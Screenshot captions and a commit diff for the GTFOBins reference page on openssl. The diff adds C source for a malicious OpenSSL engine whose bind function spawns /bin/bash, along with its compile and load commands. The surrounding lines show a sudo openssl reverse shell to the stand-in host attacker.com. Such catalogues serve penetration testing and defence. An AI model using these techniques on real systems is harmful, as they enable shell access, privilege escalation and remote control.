

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/openssl.md, in a window 1280 px wide and 1400 px high, scrolled down 1497 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2755 px from its top, so only the background shows below that.

Commit message:
Add library load section to OpenSSL
Details on how to load arbitrary libraries through the engine parameter

```diff
--- a/_gtfobins/openssl.md
+++ b/_gtfobins/openssl.md
@@ -79,4 +79,43 @@ functions:
         RHOST=attacker.com
         RPORT=12345
         mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | sudo openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
+
+  library-load:
+    - description: |
+        To load an engine library, use the engine parameter:
+
+            openssl req -engine ~/engine.so
+
+        Engines can be created with the following contents.
+
+            #include <stdio.h>
+            #include <openssl/engine.h>
+
+            static const char *engine_id = "malengine";
+            static const char *engine_name = "Engine for executing arbitrary code";
+
+            static int bind(ENGINE *e, const char *id){
+                int ret = 0;
+                int status = system("/bin/bash");
+                if(!ENGINE_set_id(e,engine_id)){
+                    fprintf(stderr, "Failed\n");
+                    goto end;
+                }
+                if(!ENGINE_set_name(e,engine_name)){
+                    fprintf(stderr, "Failed\n");
+                    goto end;
+                }
+                ret = 1;
+                end:
+                    return ret;
+            }
+
+            IMPLEMENT_DYNAMIC_BIND_FN(bind)
+            IMPLEMENT_DYNAMIC_CHECK_FN()
+
+
+        and compiled as follows
+      code: |
+          gcc -fPIC -o a.o -c engine.c && gcc -shared -o engine.so -lcrypto a.o
+
 ---
```
